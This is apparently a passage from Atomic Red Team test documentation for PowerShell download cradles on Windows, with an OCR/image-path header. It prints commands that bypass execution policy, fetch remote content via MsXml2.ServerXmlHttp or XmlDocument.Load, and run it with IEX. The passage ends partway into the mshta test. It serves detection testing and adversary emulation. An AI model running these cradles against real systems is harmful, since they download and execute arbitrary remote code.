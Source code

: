 
```cmd
powershell.exe -exec bypass -noprofile "$comMsXml=New-Object -ComObject MsXml2.ServerXmlHttp;$comMsXml.Open('GET','#{url}',$False);$comMsXml.Send();IEX $comMsXml.ResponseText"
```






<br/>
<br/>

## Atomic Test #8 - Powershell XML requests
Powershell xml download request. Upon execution, "Download Cradle test success!" will be dispalyed.

Provided by https://github.com/mgreen27/mgreen27.github.io

**Supported Platforms:** Windows


**auto_generated_guid:** 4396927f-e503-427b-b023-31049b9b09a6





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | url of payload to execute | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/test.xml|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -exec bypass -noprofile "$Xml = (New-Object System.Xml.XmlDocument);$Xml.Load('#{url}');$Xml.command.a.execute | IEX"
```






<br/>
<br/>

## Atomic Test #9 - Powershell invoke mshta.exe download
Powershell invoke mshta to download payload. Upon execution, a new PowerShell window will be opened which will display "Download Cradle test success!".

Provided by https://github.com/mgreen27/mgreen27.github.io

**Supported Platforms:** Windows


**auto_generated_guid:** 8a2ad40b-12c7-4b25-8521-2737b0a415af



